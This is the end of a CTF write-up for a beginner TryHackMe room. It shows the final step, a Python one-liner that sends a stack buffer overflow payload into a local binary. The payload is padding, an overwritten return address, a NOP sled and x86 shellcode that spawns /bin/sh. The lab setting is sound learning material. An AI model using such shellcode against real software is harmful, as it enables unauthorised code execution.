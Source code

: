 ```
python -c "print('A'*76 +'\x38\xd7\xff\xff' + '\x90'*100 +'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')" | ./stack
```

![the end](/assets/images/THM/2020-08-14-plathora/23.png)

A long journey but worth the time I spend.

## Conclusion

That's all for the simple and yet amusing beginner CTF room by zayotic. Hope you learn something today. Until next time ;)
